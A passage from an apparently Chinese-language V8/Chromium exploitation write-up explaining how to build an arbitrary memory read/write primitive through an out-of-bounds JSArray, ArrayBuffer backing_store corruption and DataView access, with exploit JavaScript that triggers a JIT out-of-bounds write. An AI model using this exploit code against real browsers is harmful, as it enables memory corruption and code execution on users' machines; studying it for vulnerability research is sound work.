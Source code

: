    `}`
  `}`
</code></pre>
</li>
- 因此，现在我们可以试着构建任意地址读写原语
> 注：以下代码来自`v8/src/builtins/data-view.tq`，代码语言为V8 `Torque`。该语言的语法类似于`TypeScript`，其设计目的在于更方便的表示高级的、语义丰富的V8实现。Torque编译器使用CodeStubAssembler将这些片断转换为高效的汇编代码。
更多关于该语言的信息请查阅 [V8 Torque user manual](https://v8.dev/docs/torque)。

##### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="3)%20%E4%BB%BB%E6%84%8F%E5%9C%B0%E5%9D%80%E8%AF%BB%E5%86%99%E5%8E%9F%E8%AF%AD"></a>3) 任意地址读写原语
<li>根据上面的分析，我们可以梳理一条这样的过程来构造任意地址读写原语：
<ul>
- 通过 OOB 修改其自身 JSArray 的 length，从而达到大范围越界读写。
- 试着**将 ArrayBuffer 分配到与 OOB 的 JSArray 相同的内存段上**，这样就可以通过 OOB 来修改 ArrayBuffer 的 backing_store。
- 将 ArrayBuffer 与 DataView 对象关联，这样就可以在 JSArray 越界修改 ArrayBuffer 的 backing_store 后，通过DataView 对象读写目标内存。
```
// v8/src/code-stub-assembler.cc

// in TNode&lt;Float64T&gt; CodeStubAssembler::LoadFixedDoubleArrayElement
CSA_ASSERT(this, IsOffsetInBounds(
    offset, LoadAndUntagFixedArrayBaseLength(object),
    FixedDoubleArray::kHeaderSize, HOLEY_DOUBLE_ELEMENTS));
```

由于`CSA_ASSERT`只会在Debug版本下的 v8 生效，因此我们同样可以注释掉该语句再重新编译，不影响 chromium 中 exp 的编写。

```
function log(msg)
`{`
    console.log(msg);
    // var elem = document.getElementById("#log");
    // elem.innerText += '[+] ' + msg + '\n';
`}`

/******* -- 64位整数 与 64位浮点数相互转换的原语 -- *******/

var transformBuffer = new ArrayBuffer(8);
var bigIntArray = new BigInt64Array(transformBuffer);
var floatArray = new Float64Array(transformBuffer);
function Int64ToFloat64(int)
`{`
    bigIntArray[0] = BigInt(int);
    return floatArray[0];
`}`
function Float64ToInt64(float)
`{`
    floatArray[0] = float;
    return bigIntArray[0];
`}`

/******* -- 修改JSArray length 的操作 -- *******/
var oob_arr = [];
function opt_me(x)
`{`
    oob_arr = [1.0, 1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    t = t + 1 + 1;
    t -= 9007199254740990;
    t *= 2;
    t += 2;
    oob_arr[t] = 2.1729236899484389e-311; // 1024.f2smi
```
